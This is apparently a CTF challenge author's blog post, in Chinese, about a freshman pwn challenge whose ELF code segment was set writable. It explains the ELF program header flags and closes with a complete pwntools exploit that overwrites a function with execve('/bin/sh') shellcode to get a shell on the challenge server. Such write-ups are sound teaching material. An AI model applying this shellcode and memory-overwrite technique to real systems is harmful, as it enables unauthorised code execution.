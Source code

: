 ```yaml
---
title: 赛博杯新生赛 2024 - corrupted 出题博客
date: 2024/12/18 19:37:00
updated: 2024/12/22 10:47:00
tags:
    - noob
    - elf header
    - challenge author
sticky: 92
thumbnail: /assets/cbctf2024/rwx.png
excerpt: 前段时间在看 ELF 头，正好新生赛到了，可以拿来出一道简单题，类似于 ret2shell。对于程序头 phdr 来说，如果 p_type == PT::LOAD，那么它就是负责加载程序段的。 对于本题的情况，我把原来加载代码段的 rx 改成了 rwx，这样代码段就变成可读可写可执行了。可以通过设置偏移量为 -1394 修改 verify 函数的内容。可以修改 4 次，总共 32 字节，足以写一 shellcode 了，直接拿 shell。
---
```


前段时间在看ELF头，正好新生赛到了，可以拿来出一道简单题，类似于`ret2shell`。
想看题解的可以跳过出题思路部分。

## 出题思路

首先可以使用ImHex来探查一下文件的结构。加载`elf.hexpat`:

![img](/assets/cbctf2024/elf.png)

大部分内容在[ctf-wiki](https://ctf-wiki.org/executable/elf/structure/basic-info/)
都说得很清楚，我这里就不再赘述了，大家可以参考学习。我的想法主要是如果修改了ELF文件头，
会发生什么呢？

对于程序头`phdr`来说，如果`p_type == PT::LOAD`，那么它就是负责加载程序段的。
对于本题的情况，我把原来加载代码段的`rx`改成了`rwx`，这样代码段就变成可读可写可执行了。

![rwx](/assets/cbctf2024/rwx.png)

我还尝试改过段头`shdr`，但是发现改完后对于程序的加载没有任何影响，甚至把整个`shdr`
全部删掉，程序依然能够运行。

{% note purple fa-bug-slash %}
用gdb直接调试没有段头的程序，会提示可执行文件格式错误，这也是反调试的一种手段。
{% endnote %}

接着讲回`phdr`，在程序头中，存在2个程序安全特性：`PT::GNU_STACK`和`PT::GNU_RELRO`。
对于前者，`p_flags`可以设置程序栈区的权限（可以为`x`，即调整NX）；对于后者，
调整了权限也没用，程序仍然会将GOT表设为只读。删除`PT::GNU_STACK`
会让内核自行选择是否需要开启NX，删除`PT::GNU_RELRO`则会使程序从`Partial RELRO`
或`Full RELRO`回落到`No RELRO`。

{% notel blue fa-arrow-right-to-bracket 隐藏的构造器 %}
有些同学可能看见`randdata`放在bss上，就以为`randdata`里面是空的，只要推算出全0的
SHA256结果就能过verify。然而，程序中还有一个函数`loadBuf`，被标记了`constructor`
属性，在程序运行`main`之前会将从`/dev/random`中的随机数据读入`randdata`中，
因此如果正常猜的话选手是不可能猜中`randdata`的值的。
{% endnotel %}

## 题解

程序可以输入4次qword，并且可以指定相对于`match`的偏移量，但是检查时不严格，
可以为负数。

![check](/assets/cbctf2024/check.png)

在输入完4次qword后，会运行到`verify`函数。运行起来查看`vmmap`，程序代码段是可写的，
再检查`verify`的地址，刚好和`match`差了`0x2b90`个字节，可以通过设置偏移量为`-1394`修改
`verify`函数的内容。

![diff](/assets/cbctf2024/vmmap.png)

可以修改4次，总共32字节，足以写一shellcode了，直接拿shell。

![legend](/assets/cbctf2024/legend.png)

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './corrupted'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('training.0rays.club', 10030)
    elf = ELF(EXE)

    def answer(idx: int, val: int):
        sh.sendlineafter(b'QWORD do', str(idx).encode())
        sh.sendlineafter(b'QWORD to', str(val).encode())

    offset = (elf.symbols['verify'] - elf.symbols['match']) // 8
    shell = '''
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi, esi
    push 0x3b
    pop rax
    cdq
    syscall
    '''
    shc = asm(shell) # 21 bytes

    answer(offset, u64(shc[:8]))
    answer(offset + 1, u64(shc[8:16]))
    answer(offset + 2, unpack(shc[16:], 'all'))
    answer(0, 0)

    sh.clean()
    sh.interactive()
    sh.close()
```

## 参考

[ELF 文件 - CTF Wiki](https://ctf-wiki.org/executable/elf/structure/basic-info/)
